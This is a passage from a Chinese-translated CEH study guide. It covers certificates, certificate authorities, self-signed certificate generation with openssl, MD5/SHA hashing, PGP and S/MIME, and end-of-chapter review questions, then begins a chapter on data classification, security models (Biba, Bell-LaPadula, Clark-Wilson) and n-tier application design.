| 主体 | C=US,O=WasHere,OU=IT,CN=Ric Messier |
| 公钥 | RSA (2048 bits) |
| 主体备用名称 | ric@localhost |
| 基本约束 | ca: FALSE |
| 机构密钥标识符 | 0E 38 FD 21 08 18 09 BF BC 68 3E 33 C9 AB 58 63 ... |
| 主体密钥标识符 | B3 8C 15 A5 F5 E8 0A F3 30 44 AC FF 47 C3 60 ... |
| 密钥用途 | digitalSignature, keyEncipherment |
| 指纹 (MD5) | 00 58 EE 1F 65 BB 63 63 66 09 D9 45 9C EF 46 31 |
| 指纹 (SHA-1) | 5F 24 41 75 A3 EA A4 8E 2B DE F0 CD 64 61 D0 EF ... |
| 指纹 (SHA-256) | F4 63 8B 53 B2 6A 63 6F 83 AE 83 A8 08 DB A3 8E B... |
| 吊销状态 | 未吊销 |

与密钥本身（这本身意义不大）相比，你可以看到密钥的指纹。指纹是一个以十六进制显示的固定长度值。当然，你也可以直接以十六进制显示密钥，而不是尝试从字节值生成字符。然而，一个 4096 位的密钥将是 512 个字节。一个字节由两个十六进制数字表示。这意味着以十六进制显示 4096 位密钥将是 1024 个字符。仅为了让你了解这有多长，这段文字（包括空格和标点）是 561 个字符。

当你使用证书颁发机构时，该机构可以吊销证书。例如，这可能是因为用户不再与管理该机构的组织相关联。企业可以运行自己的机构。由于证书中包含标识信息，例如电子邮件地址，如果电子邮件地址不再有效，证书可能需要被吊销。当证书被吊销后，任何针对该机构验证证书的各方都不应接受该证书。这很重要，因为证书关联着身份要素。证书可以提供经过验证的身份，可用于对某人进行身份验证。如果证书已被吊销，则不应信任该用户。

被吊销的证书通过证书吊销列表（CRLs）进行管理。历史上，CRL 的问题在于它们并不总是用于验证证书。此外，可能没有好的方法将 CRL 提供给验证证书的系统，这取决于 CA 相对于验证系统的网络位置。两者之间是否可达，是否存在会阻止通信的防火墙？因此，可以使用在线证书状态协议（OCSP）与 CA 验证证书。

## 可信第三方

使用 CA 的一个优势是，存在一个中央机构，它不仅用于存储和管理证书，还用于执行身份验证。请记住，你将标识信息提供到证书中。如果证书不能可验证地属于某人，不可否认性就不起作用。仅提供姓名甚至电子邮件地址不足以验证某人的身份。它可能被伪造，也可能来自拥有正确电子邮件地址访问权的攻击者。解决此问题的方法是找有人实际验证身份。这可能来自检查某种身份凭证，以证明你就是你声称的那个人。例如，对于像 Verisign 这样的第三方提供商，你可能需要在它们颁发你的证书之前安全地提供照片身份证明。

这引出了可信第三方的概念。理想情况下，你始终希望知道，你发送加密消息的对象或接收签名消息的对象，就是你期望的那个人。这在 CA 中之所以可行，是因为传递性。传递性在这里是说，如果你信任 CA，而 CA 信任另一个人是他们声称的那个人，那么你也会相信那个人是他们声称的那个人。我信任你，你信任 Franny，因此我也信任 Franny。这假设 CA 对请求证书的人进行了完整的验证。

我们知道该信任哪个 CA，因为 CA 生成的每个证书都由 CA 的根证书签名。这意味着 CA 添加了由其私钥生成的数字签名。检查证书的系统会验证签名是否与 CA 的公钥匹配。如果为真，你就知道证书是真实的，且与证书关联的身份是有效的。这意味着，对于你信任的每个 CA，你都需要将该 CA 的根证书添加到你的证书缓存中，以便签名能匹配到某个东西。

最终，验证证书取决于终端。你可能遇到过证书错误的情况。这可能是因为证书由不受信任的机构生成，意味着你没有安装该机构的根证书。这也可能是由于伪造证书，意味着有人生成了一个证书来伪装成

看似一件事，但实际上完全是另一回事。这也可能是配置错误导致的。你可以在图 13.8 中看到这种情况的示例。

### 图 13.8 证书错误


Google Chrome 之所以生成此错误，是因为证书上的名称与服务器的名称不匹配。Web 服务器的主机名是 www.sofamart.com。注册证书时，你必须提供名称。这包括你要安装证书的服务器的主机名。这些值必须匹配。在此示例中，证书是颁发给 *.furniturerow.com 的。这表明，即使证书来自受信任的机构，也不意味着你正在连接的服务器可信，因为证书可能已被窃取并安装在其他地方。在这里，Furniture Row 是拥有 Sofa Mart 的公司，因此它试图通过在其使用的所有服务器上使用同一张证书来节省一些费用。

## 自签名证书

例如，有时你只想在两个系统之间加密实验室中的消息。你可以创建自己的证书。你甚至不需要经过创建自己的证书颁发机构的步骤。你可以直接生成自己的证书并使用它。这将导致证书错误，因为证书不会被签名。它将是一个裸证书。正如 Simple Authority 使用 OpenSSL 一样，它也可以在命令行中用于手动生成证书。你将使用 Simple Authority 正在运行的命令。在这里，你可以看到用于创建证书的 OpenSSL 命令。

## 证书生成

```
root@quiche:~# openssl req -x509 -newkey rsa:4096 -keyout key.pem
-out cert.pem -days 365
Generating a RSA private key
...................++++
.............................................++++
.........................................................
writing new private key to 'key.pem'
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
---
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
---
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:CO
Locality Name (eg, city) []:Wubble
Organization Name (eg, company) [Internet Widgets Pty Ltd]:
Organizational Unit Name (eg, section) []:IT
Common Name (e.g. server FQDN or YOUR name) []:www.server.com
Email Address []:wubble@wubble.com
```

我使用 openssl 命令来请求一个 X.509 证书。这在命令行的第一部分完成。接下来，我提供了将嵌入证书中的密钥的详细信息。这是一个长度为 4096 位的 RSA 密钥。密钥被写入文件 key.pem，而证书本身被写入 cert.pem。我还需要指示证书的有效期。你可能遇到过证书过期的情况，即仍在使用旧证书。你的浏览器可能不允许连接到使用旧证书的服务器。你可以在这里指定任何想要的时间段。命令行中请求的是 365 天。你可能注意到，当我创建自己的 CA 时，根证书的有效期为 10 年。你不想每年都要更新根证书，因为这会导致大量用户拥有过期的根证书，这意味着由该 CA 签名的每个证书都将无效。再次，你遇到了传递属性在起作用。

这是你第一次看到为密钥或证书实际创建一个文件。如果你有这些文件，可以使用 openssl 从中提取信息。你可以看到这长什么样。再次，我正在执行 x509 函数。与生成证书时使用的参数相比，这些参数要简单得多。我提供输入文件，即先前生成的证书文件。然后，我只需告诉 openssl 生成文本输出。

```
root@quiche:~# openssl x509 -in cert.pem -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            5a:50:cd:8a:dc:2d:57:ff:52:13:ca:51:a6:f5:90:7e:71:28:50:9a
        Signature Algorithm: sha256WithRSAEncryption
            Issuer: C = US, ST = CO, L = Wubble, O = Internet Widgets Pty Ltd,
            OU = IT, CN = www.server.com, emailAddress = wubble@wubble.com
        Validity
            Not Before: Jan 20 22:13:54 2019 GMT
            Not After : Jan 20 22:13:54 2020 GMT
        Subject: C = US, ST = CO, L = Wubble, O = Internet Widgets Pty Ltd,
            OU = IT, CN = www.server.com, emailAddress = wubble@wubble.com
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (4096 bit)
```

在这里，你可以看到证书中许多未提供的详细信息。首先，有一个版本号，指示正在使用的 X.509 证书版本。这会更改证书中包含的功能。还有一个序列号，用于唯一标识证书。我们还拥有关于颁发者的详细信息。在大多数情况下，这就是 CA。在此示例中，颁发者和主体是相同的，因为没有权威机构。这是一个自签名证书，因此生成它的设备实际上已经对其进行了签名。

先前的文本输出片段中缺少许多详细信息。首先，未包括密钥的指纹。此外，完整的文本输出包括模数，即两个大质数的乘积。这是密钥的一部分。最后，你还将获得证书的 Base64 编码表示。证书中存储了大量数据，打印所有内容需要占用大量空间。不过，它能让你很好地了解捕获了哪些信息，以及哪些信息是证书正常工作所必需的。

## 加密哈希

迄今为止，我们一直略过密码学中的一个重要元素。你可能在本章前面的地方见过它，例如自签名证书，甚至是 Web 服务器上使用的密码套件。一直缺失的重要部分是数据验证。你可以加密数据，但作为其一部分，你还应该确保发送的内容就是接收到的内容，以确保没有被篡改。这可以使用消息认证码（MAC）来完成。这里的 MAC 是一个固定长度的值，通过将整个消息通过加密算法生成。输出通常称为哈希。它除了能够验证已发送的消息之外，还可以用于多种用途。

一种常见的哈希函数，尽管开始被弃用，就是消息摘要 5（MD5）。MD5 是一种加密算法，接受任意长度的输入并生成固定长度的输出。生成 MD5 哈希将产生 32 个十六进制字符，即 128 位。在加密哈希方面，它不是线性函数。这意味着即使只更改一个比特，也会生成完全不同的值。你可以在以下代码清单中看到这一点，其中我将字符串 '123456789' 取出，并使用 md5sum 命令从中获得 MD5 哈希。第二次，我从字符串 '223456789' 获得哈希，这只是更改了一个比特。MD5 输出的差异完全不同。尽管只相差一个比特，一个值与另一个值毫无关系。

## 生成 MD5 哈希

```
root@quiche:~# echo '123456789' | md5sum
b2cfa4183267af678e0a6c7407f4d6d8  -
root@quiche:~# echo '223456789' | md5sum
2cad6f3fd5e54b84cfccd3e1ef5eae4d  -
```

加密哈希的期望之一是，每组输入都会产生不同的值。当两组不同的输入生成相同的输出值时，这被称为冲突。这些冲突，尤其是如果可以被人为制造，可能导致利用。由于这些值用于对消息进行身份验证，如果通过使用冲突可以操纵消息摘要输出，则可能导致消息被篡改，同时仍允许消息摘要值保持不变。

> 哈希算法中冲突的问题与一个称为生日悖论的数学问题有关。这指出，在一个有 23 人的房间里，有 50% 的可能性两个人有相同的生日（月和日）。但是，要达到 100%，房间里必须有 366 人。概率图在早期陡峭上升，然后基本上沿着顶部延续一段时间。正是这种能够在哈希值中生成冲突的概率游戏，成为了攻击向量。

MD5 不是用于加密哈希的唯一算法。安全哈希算法 1（SHA-1）是 MD5 的替代品。它提供 160 位输出，即 20 字节。这表示为 40 个十六进制数字。SHA-1 与 MD5 的情况相同。两组输入中一个比特的差异会生成两组毫无关系的输出。你可以在这里看到这一点，使用与 MD5 哈希演示相同的演示。


## SHA-1 哈希值

```
root@quiche:~# echo '123456789' | sha1sum
179c9cf4c56ce383baf52621687305204cef16f9 -
root@quiche:~# echo '223456789' | sha1sum
884228b47dd406b235d020315929a8841f178a93 -
```

这些哈希函数可用于对消息进行身份验证，因为哈希值会随消息一起传输。如果消息有任何差异，应将其视为不可信。如果不被视为可信，则应予以丢弃，因为假设它已被篡改。同样，这就是为什么无法操纵消息摘要至关重要。一旦攻击者能够操纵消息，但摘要仍然正确，他们就可以修改被认为是私密的加密消息。

SHA-1 并非终点。目前，有 SHA-2，该算法支持四种不同的摘要大小（或位长度）。这些分别是 224、256、384 和 512 位。还有 SHA-3，它支持任意长度。由于 SHA-2 的摘要长度可达 512 位，因此没有什么理由不使用它而使用 SHA-1，当然也不要使用 MD5。

除了提供消息身份验证外，加密哈希还用于验证数据是否正确。这在从网站下载文件时很常见。文件下载后，可以对下载内容计算哈希值，并与应有的哈希值进行比较。在这种情况下，它不能防范文件的真实性问题，也就是说下载过程中被篡改的可能性不大。相反，你是在比对下载过程中的数据损坏。这并非说不存在底层文件被替换的情况，你应该确保通过网站预供下载的文件实际就是可供下载的文件。这意味着当文件系统中的文件发生更改时，网站也需要相应更新。

加密哈希常用于 Tripwire 等文件完整性系统。文件系统中的关键文件会计算并存储哈希值。然后软件会定期检查，将文件系统上的内容与已知良好数据库中的内容进行比较。如果有更改，会将其标记为系统可能被攻破的迹象。基于主机的入侵检测系统通常会使用此类元素，以便在攻击者获得系统访问权限时能够检测到。

## PGP 和 S/MIME

公钥加密在多种场景下非常常用。但是，证书颁发机构（CA）并非总是被使用。并非所有人都欣赏集中式管理方法，即信任组织。在 20 世纪 90 年代，Phil Zimmermann 开发了一种管理证书的另一种方式，不使用 CA 进行集中式验证。相反，Pretty Good Privacy (PGP) 使用“信任网”来执行验证。其理念是所有密钥都上传到 Web 服务器。认识上传密钥的人会对该密钥签名，以证明他们认识此人，并愿意声明该密钥确实属于其声称所属的用户。

假设 Fanny 的电子邮件地址是 fanny@wubble.com，她上传了自己的 PGP 密钥。这是基于创建带有公钥的 X.509 证书。公钥存储在公共 Web 服务器上。我碰巧认识 Fanny。我知道她的电子邮件地址，她告诉我她的公钥指纹是什么。我去 PGP 密钥网站，用我的签名对她的密钥进行签名。任何认识我但不认识 Fanny 的人都可以确信 Fanny 的密钥是合法的。这又是传递性的一个例子。你信任我，而我信任 Fanny 的密钥是合法的，因此你可以信任 Fanny 的密钥是合法的。你可以使用她的公钥向她发送加密消息。

您最终会将所有想要通信的公钥存储在密钥环中进行管理。该密钥环通常会用您的密钥签名，并附带消息身份验证码存储，以便您可以确定它未被篡改。如您可能多次看到的，在讨论加密和隐私时，确保每个环节的有效性并保护密钥很重要。PGP 的一个缺点是密钥由用户管理。这意味着您必须跟踪自己的密钥并随身携带。理论上，我应该拥有一个使用了 30 年的 PGP 密钥。不幸的是，我不得不重建系统，或者系统被误删。这意味着我不得不不断重新创建密钥。这可能会导致混淆，如图 13.9 所示，同一个电子邮件地址存在多个密钥。您怎么知道应该使用哪个密钥来加密消息？它将所有管理工作都交给了单个用户。用户需要知道想要向谁发送消息，以及应该使用哪个对该用户正确的密钥。

### 图 13.9 PGP 密钥列表

### 'ric messier' 的搜索结果

| 类型 | 位数/密钥ID | 日期 | 用户ID |
|---|---|---|---|
| pub | 2048R/7B8C37F2 | 2013-05-13 | Ric Messier <kilroy@WasHere.COM> |
| pub | 1024D/507D2485 | 2000-03-28 | Ric Messier <rmessier@bbnplanet.com> |
| pub | 1024D/h6CCD851 | 2000-01-16 | Ric Messier <kilroy@WasHere.COM> |
| pub | 1024D/C08CFEF1 | 1998-10-09 | Ric Messier <ric@seg.NET.COM> |
| pub | 1024D/BAD113F1 | 1998-08-27 | Ric Messier <kilroy@WasHere.COM> |

PGP 不适合用于服务器证书。相反，它用于在一个用户与另一个用户之间发送电子邮件等消息。只要双方都运行 PGP 软件，PGP 就可以用于加密从一个用户发送到另一个用户的电子邮件。不过，PGP 并非电子邮件加密的唯一解决方案。

Secure/Multipurpose Internet Mail Extensions (S/MIME) 是另一种用于发送加密邮件的协议。这是一个通常在邮件客户端中实现的标准，这意味着不需要第三方软件。S/MIME 也使用来自证书颁发机构的 X.509 证书。这些证书通常可安装在 Windows Active Directory 中。在完全基于 Microsoft 的环境中，企业内的用户可以相互发送加密消息，并且可以从 Active Directory 服务器检索公钥。这意味着不需要在系统中保留其他根 CA 密钥，也不需要其他方法将公钥放入客户端系统。

## 摘要

加密是一个重要的概念，因为隐私非常重要。当攻击者寻求任何可利用的优势时，情况尤其如此。如果他们能够截获未加密的消息，他们可能会利用消息内容。用户有时会错误地认为，发送给企业内其他用户的消息是安全的，因为它们留在企业内部。这些消息并不安全，因为它们可能被截获和利用。基于磁盘的加密也是如此。您不能假设加密磁盘就是安全的。一旦某人被验证为合法用户，磁盘就会被解密。这意味着如果攻击者能够获得经过身份验证的访问权限，即使是通过以主用户身份运行的恶意软件，磁盘对攻击者来说也完全暴露无遗。

考虑最终结果时，加密分为两种类型。第一种是替换，其中一个字符被另一个字符替换。这在移位密码和 Vigenère 密码等加密方案中很常见。第二种是变换密码。这是指未加密的消息（即明文）不是逐个字符替换，而是将整个消息进行变换，通常通过数学过程完成。这种变换可以使用消息的固定长度块来完成，这就是块密码。也可以逐字节完成，这就是流密码的工作方式。使用块密码时，数据大小应为块大小的倍数。最后一个块可能需要填充以达到正确大小。

密钥管理至关重要。其中一个重要元素是密钥创建。您可以使用预共享密钥，但在共享过程中可能被获取或截获。如果您不使用预共享密钥，密钥可以被推导出来。这可以使用 Diffie-Hellman 密钥交换协议来完成。使用共同的起点，双方都向该值添加一个数值并将其传递给对方。一旦该值添加到共享密钥中，双方最终都会拥有共同值加上 A 方的随机值加上 B 方的随机值。双方拥有相同的密钥，并可以开始发送加密消息。

此过程可用于对称密钥，其中相同的密钥用于加密和解密。高级加密标准 (AES) 是一种常见的对称密钥加密算法。AES 支持 128、192 和 256 位。您也可以使用非对称密钥算法，其中加密和解密使用不同的密钥。


这种方法有时被称为公钥加密。一种常见的方法是使用混合加密系统，其中公钥加密用于共享会话密钥，会话密钥是用于在会话中加密消息的对称密钥。

证书由 X.509 定义（X.509 是 X.500 数字目录标准的一个子集），用于存储公钥信息。这包括关于证书持有者身份的信息，以便可以进行证书验证。证书可使用 CA 进行管理，CA 是验证证书持有者身份的可信第三方。不过，CA 不是验证身份的唯一方式。PGP 使用信任网模型，其中单个用户通过签署他们认识的人的公钥来验证身份。

MAC 用于确保消息未被更改。这通常是一种加密哈希，即一种从可变长度数据生成固定长度摘要值的算法。这不仅可用于消息认证，还可用于验证文件未被篡改或损坏。

## 复习问题

您可以在附录中找到答案。

- 1. 使用旋转 4 时，erwaiv 解密后是什么？
  - A. 放弃
  - B. 波浪
  - C. 答案
  - D. 解密

- 2. 加密前的消息称为什么？
  - A. 文本
  - B. 明文
  - C. 裸词
  - D. 裸文本

- 3. PGP 使用什么来验证身份？
  - A. 中央机构
  - B. 用户网
  - C. 信任网
  - D. 中央信任机构

- 4. 使用什么原则来证明签名消息来自签名密钥的所有者？
  - A. 不可否认性
  - B. 不可验证性
  - C. 完整性
  - D. 权威性

- 5. Diffie-Hellman 用于什么？
  - A. 密钥管理
  - B. 密钥隔离
  - C. 密钥交换
  - D. 密钥吊销

- 6. 3DES 如何改进 DES？
  - A. 使密钥更长
  - B. 使用两个密钥
  - C. 更改算法
  - D. 使用三个密钥

- 7. 椭圆曲线密码学有什么改进？
  - A. 较小的密钥可提高速度
  - B. 算法更复杂
  - C. 不使用因式分解，这更好
  - D. 更长的密钥

- 8. 当两组不同的数据产生相同的加密哈希时，这称为什么？
  - A. 悖论
  - B. 冲突
  - C. 崩溃
  - D. 不现实

- 9. 以下哪个术语可用于描述非对称密钥加密？
  - A. 私钥
  - B. 多因素
  - C. 公钥
  - D. 单因素

- 10. 如果 Alice 要向 Bob 发送电子邮件，她会使用什么密钥来加密消息？
  - A. PGP 密钥
  - B. 私钥
  - C. 公钥
  - D. 对称密钥

- 11. 什么属性允许你信任受你信任的证书颁发机构信任的人？
  - A. 交换律
  - B. 结合律
  - C. 交流性
  - D. 传递性

- 12. 为什么通常使用对称密钥加密而不是非对称密钥加密？
  - A. 速度更快。
  - B. 更安全。
  - C. 更容易实现。
  - D. 不受专利限制。

- 13. 同时使用对称和非对称密钥时，这称为什么？
  - A. 快速加密系统
  - B. 混合加密系统
  - C. 超对称加密系统
  - D. 双密钥加密系统

- 14. 在密码学中，MD5 或 SHA-1 通常用于什么？
  - A. 媒体访问控制 (MAC)
  - B. 机器身份验证代码 (MAC)
  - C. 消息访问代码 (MAC)
  - D. 消息身份验证代码 (MAC)

- 15. PGP 使用什么类型的加密？
  - A. 对称密钥
  - B. 非对称密钥
  - C. 受信任密钥
  - D. Web 密钥


# 第 14 章

# 安全架构与设计

本章涵盖以下 CEH 主题：

- 安全架构
- 服务导向架构
- N 层应用程序设计
- 数据库结构
- 安全模型


为企业制定策略（包括如何开发应用程序）需要大量考量。有许多需要考虑的因素，而且您无需从零开始。无论您开发或实施什么，都要考虑用户，或许更重要的是，要考虑数据分类及其必要的安全要求。毕竟，并非所有数据都平等。正如并非所有数据都平等一样，并非所有用户都平等。因此，在开发安全程序时，拥有一个安全模型很有用。这意味着定义您将允许用户如何与数据及彼此进行交互。设计安全模型有多种方法，其中一些方法与数据的分类方式相关。

安全模型是确保遵守安全策略的一种方式。开发安全模型是定义要实现的行为的一种方法。这也可以帮助指导应用程序开发和部署。在定义架构时，这一点尤其正确。当今实现应用程序有多种方式，尤其是在我们远离部署在单个客户端系统上的标准原生应用程序时。

此外，在应用程序开发和部署方面，还需要考虑安全架构。开发安全架构意味着采用自上而下的方法，确保安全策略、标准和控制措施都保持一致和连贯。安全策略从组织的顶层开始，根据业务需求和要求设定方向。请牢记，安全应作为业务推动者。

## 数据分类

并非所有数据都平等。在组织安全系统和控制措施时，数据分类是一个重要步骤。数据分类用于识别和组织具有相似安全控制需求的信息。这样可以创建适当的访问控制。当您开始考虑安全模型时，考虑数据分类很重要，因为安全模型用于帮助识别谁可以查看哪些数据。如果不先对数据资源进行分类和组织，您就无法做到这一点。

不同的组织会根据现有的数据资源使用不同类型的分类方案。在政府（尤其是军队）方面，您也会经常听到这一点。表 14.1 列出了政府中常用的分类。

## 表 14.1 政府数据分类

| 分类 | 说明 |
|---|---|
| 绝密 | 最高级别的数据分类。只有极少数人才能查看机密级别为绝密的数据。 |
| 机密 | 机密信息泄露将对国家安全造成严重损害。 |
| 秘密 | 秘密信息泄露将对国家安全造成损害。 |
| 受限 | 受限数据泄露将产生不良影响。 |
| 官方 | 这是与政府业务相关的信息，如果信息丢失或泄露，可能不是潜在危害的指标。 |
| 未分类 | 未分类信息可以被所有人查看。这可能包括曾经被认为具有更高分类级别但其泄露所构成的威胁已消退的解密信息。 |

在这些分类级别内部，可能存在额外的隔离区域。绝密信息不一定对所有获得绝密级别许可的人都可用。正如并非所有数据都平等一样，并非所有人都平等。信息有时需要在超出这些数据分类级别的范围内进行隔离。当然，这不是对数据进行分类的唯一方式。组织对其信息可能有不同的思考方式。表 14.2 展示了另一种分类数据的方法。

## 表 14.2 简单的数据分类

| 分类 | 说明 |
|---|---|
| 受限 | 内部或敏感数据。丢失或披露此数据可能对组织造成重大损害。 |
| 私有 | 可能也是内部或敏感的数据，但丢失或披露此数据只会对组织造成中等损害。 |
| 公开 | 如果被披露或丢失，被归类为公开的数据不会对组织造成任何损害。 |

您可以看到，这是一种更简单的数据分类方式。比这更简单的是只有两个分类：受限和公开。同样，这完全取决于类型


组织内部可能存在的数据。还可能取决于组织内部的人员，以决定需要多少级分类。如果你有一个小型组织，每个人基本上都是平等的，例如仅由公司合伙人组成的初创公司，那么你可能只需要两个数据分类级别。

分类应始终基于业务需求和要求进行。与许多事情一样，在组织生命周期早期进行分类要容易得多。拥有大量数据的大型组织会发现仅由于数据的数量和规模，进行分类要困难得多。在某些情况下，法规可能会建议分类方案。

## 安全模型

安全模型用于帮助强制实施访问控制。安全模型定义了谁可以对数据执行什么操作。它是组织所识别的数据分类级别的扩展。例如，你不会希望将公开数据与敏感数据混合存储。通常应该有权访问公开数据的人不应该有权访问敏感信息。当然，这不是一个双向的属性。拥有绝密数据访问权限的人应该可以访问公开数据，但绝不能反过来。以下各节中介绍的模型定义的正是这类关系。

### 状态机

状态机模型基于有限状态机。有限状态机是描述一组计算步骤的一种方式。在任意时刻，机器要么处于单一状态，要么正在两个状态之间进行转换。这是评估计算模型的一种抽象方式。你可以在图 14.1 中看到一个非常简单的状态机。它显示两个状态，状态 A 和状态 B。在此模型中，可以从状态 A 转换到状态 B，也可以从状态 B 转换到状态 A。取决于模型，并不总是可以双向转换。可以将此视为对自动门的建模。门有两个状态，打开和关闭。还有从打开到关闭和从关闭到打开的转换。


状态机模型用于识别系统的整体安全性何时已转移到不安全的状态。这要求已识别系统的所有可能状态。这应包括将系统移入特定状态的可能动作以及所有可能的状态转换。当系统进行意外转换或动作导致意外状态时，可以对此进行监控和告警。

与此处讨论的其他模型相比，此模型要抽象得多，因为它实际上并未定义任何预期行为。它只是一种对环境进行建模的方式，需要有人定义预期行为和状态。

### Biba

Biba 模型以开发该模型的人（肯尼斯·比巴，1975 年开发）命名。Biba 模型的目标是数据完整性。因此，该模型也可能被称为 Biba 完整性模型。请记住，安全并不总是关于保护数据的机密性。数据的完整性同样重要。数据如果被意外篡改或被错误的人修改，也可能对组织造成损害。这可能比你想象的更复杂。在确保数据完整性方面，有三个目标：

- 未经授权的各方不能修改数据。
- 已授权的各方在没有特定授权的情况下不能修改数据。
- 数据应真实准确，即同时具有一致性和外部一致性。

第二个目标可能看起来令人困惑。仅仅因为你拥有系统或网络的登录权限，并不意味着你可以访问所有数据。第一个目标是确保外部没有访问权限的人无法修改数据。第二个目标是关于内部人员无法修改他们不应修改、甚至可能不应查看的数据。

在 Biba 完整性模型中，数据有分类级别，人员也有分类级别。这些也称为完整性级别。用户只能向其自身级别或以下的完整性级别写入。反过来想可能更容易理解：用户不能向高于自身级别的完整性级别写入。写入不是你可以对信息执行的唯一操作。还必须考虑读取。读取只能在完整性级别或以上进行。因此，快速思考的方式是：读上，写下。

Biba 模型定义了三组规则：

- 简单完整性属性规定，某一完整性级别的主体不能读取较低完整性级别的数据对象。
- * (星号) 完整性属性规定，某一完整性级别的主体不能向较高完整性级别的数据对象写入。
- 调用属性规定，来自较低级别的进程不得请求较高级别的访问权限。该进程只能在其自身级别或以下拥有访问权限。

当然，并非所有安全模型都关注数据完整性。这意味着你可能会发现从一个模型到另一个模型的某些理念存在冲突。

### Bell-LaPadula

Bell-LaPadula 用于政府或军事实现，其意图是保护机密性。与 Biba 类似，它是一种状态机模型，意味着主体和客体在任意时刻处于单一状态。Bell-LaPadula 还识别出 _安全状态_，因此所有转换都应从一个安全状态移动到另一个安全状态。安全状态意味着主体符合安全策略所定义的客体。在此模型中，只允许适当的访问级别，因为它们被定义并可以评估。

如前所述，Bell-LaPadula 侧重于机密性而非完整性。因此，该模型定义的属性与 Biba 模型中定义的属性不同。Bell-LaPadula 属性定义如下：

- 简单安全属性规定，某一安全级别的主体不得读取较高安全级别的客体。
- * (星号) 属性规定，某一安全级别的主体不得向较低安全级别的客体写入。
- 自主安全属性使用访问矩阵来指示自主访问。

Bell-LaPadula 提供两条强制访问控制规则（简单安全属性和 * 属性）以及一条自主访问控制规则。强制访问控制由操作系统处理。规则基于策略创建，系统用户无法篡改。自主访问控制允许用户根据自身需求和所控制的数据设置自己的访问规则。使用自主访问控制时，企业无法控制哪些主体被允许访问哪些客体。

### Clark-Wilson 完整性模型

Clark-Wilson 模型是另一种侧重于完整性而非机密性的模型。不过，这并不意味着它与 Biba 模型相同，即使预期的最终结果是一样的。与 Biba 不同，Clark-Wilson 不依赖状态机。它也不专门使用主体和客体。Clark-Wilson 引入了程序。与状态机不同，在状态机中主体直接对客体进行操作，而 Clark-Wilson 期望主体仅通过使用程序来对数据对象进行操作。此外，Biba 用于保护较高分类级别上的信息，而 Clark-Wilson 可用于所有数据分类级别。Clark-Wilson 的总体目标是保持数据在从一个状态移动到另一个状态时的一致性，即每个事务都使客体处于合理且可用的状态。

如前所述，Clark-Wilson 不定义状态机，而是定义数据项，并仅通过少量已知程序允许访问。本质上，程序处理对客体的事务。该模型依赖于主体、客体和访问程序是已知的。如果除允许的主体以外的任何主体尝试访问客体，即使是通过已知程序/事务，也属于违规。尝试使用其他程序来执行未定义的事务也是如此。这也将


会被视为违规。因为所有三个元素都是必要的，它们被称为 Clark-Wilson 三元组。

除了三元组之外，Clark-Wilson 包含一组规则。这些规则需要一些额外的术语。存在受限数据项（Constrained Data Items，CDI）和非受限数据项（Unconstrained Data Items，UDI）。它们由转换过程（Transformation Procedures，TP）处理，某一状态下数据的有效性由完整性验证过程（Integrity Verification Procedure，IVP）检查。Clark-Wilson 指定了九条规则。其中一些是认证规则（Certification Rules，CRs）和一些是强制规则（Enforcement Rules，ERs）。其中两条规则与数据的外部性和完整性相关，这些是 CRs。

三条规则检查 TPs 是否被允许对给定的 CDI 执行操作，这些是 ERs。另一条 CR 与确保整个三元组被允许有关。此外，还有规则用于确保有日志记录以及新数据进入系统，指定其不需要受限。最后，有一条规则确保只有 TP 的认证者可以更改 TP 的资格。

## 应用程序架构

曾经有段时间，应用程序运行在单个系统上。这要追溯到大型机时代，当时用户会连接到大型机并在上面运行他们的程序。与程序相关的一切，包括程序可能具有的任何数据要求，都存在于单个系统上。该系统上有控制措施来防止未经授权的访问，特别是因为该系统只有一个入口点。紧接着是个人电脑时代，在它们连接到网络之前，程序在单个系统上运行。数据也与程序和系统一起存储。一旦系统连接到网络，可能性就扩大了。数据可以存储在程序运行的系统以外的地方。此外，用户甚至不需要与程序运行的系统在同一系统上。一切都可以分段。

除了分段之外，还需要考虑网络地理。曾经有一段时间，一切可能都运行在公司的网络上。情况不再如此，因为有服务提供商可以提供计算资源。这使得应用程序架构的可能性非常广泛。即使是构建应用程序的方式也发生了变化。我们不再必然拥有应用程序运行的系统。基于云的提供商，系统位于服务提供商的场所并被虚拟消费，正在开始改变应用程序的架构方式。

经典的应用程序架构是 n 层设计模型。应用程序开发人员多年来一直使用这种设计。然而，这正在改变。面向服务的架构通过将组件拆分为服务来采用单体设计的想法。然后服务相互交互。归根结底，结果是相同的。区别在于数据的处理方式以及应用程序最终的构建方式。最后，尤其是当你考虑之前的部分时，还有数据库考虑因素。即使这些考虑因素也开始发生变化。

## n 层应用程序设计

n 层设计是分层应用程序模型。在某些情况下，你可能会看到这个被称为模型-视图-控制器（MVC）设计，即使在那些多个层中可能还有其他元素。这些层也被称为表示层、应用层、业务层和数据访问层。你可以在图 14.2 中看到这种设计的示例。表示层，即与视图相同，位于客户端，图中是笔记本电脑所在的位置。下一层是应用层。这是逻辑所在的地方。可编程功能存在于应用层中。这有时可以分为应用层和业务逻辑层。

### 图 14.2 多层应用程序设计


在四层模型中，应用层和业务逻辑层被分开，应用层提供服务控制。本质上，应用层决定哪些规则应适用并调用适当的业务逻辑规则。业务逻辑规则由业务需求提供，并指示应用程序应如何处理提供给它的数据。业务逻辑就是应用程序的全部。其他一切都是处理输入和输出的方式。应用层，或应用层和业务逻辑层，等同于 MVC 设计中的控制器层。

应用程序服务器通常取决于语言。应用程序服务器为应用程序提供向用户提供服务的框架。这通常通过超文本传输协议（HTTP）等 Web 协议处理。应用程序服务器甚至可能为 Web 服务器提供框架。Web 请求被发送到应用程序服务器，然后根据请求，从那里被定向到应用程序代码。Java 是用于应用程序服务器的常见语言。另外，.NET 语言（如 Visual Basic 和 C#）在应用程序服务器中处理，该服务器随 Microsoft 的 Internet Information Server（IIS）提供。

### 图 14.3 IIS 应用程序服务器


数据层是 MVC 设计中的模型。它是数据组织和连接的方式。通常，此元素是数据库。关系数据库常用作 Web 应用程序的后端。关系数据库有助于数据模型，因为这种类型的数据库涉及定义不同数据对象之间的关系。此定义（或架构）是为应用程序的数据模型提供某种可视化的方式。结构化查询语言（SQL）用于创建数据库及其组件表，以及添加数据和检索数据。对数据库的操作是通过使用称为查询的 SQL 语句来完成的。

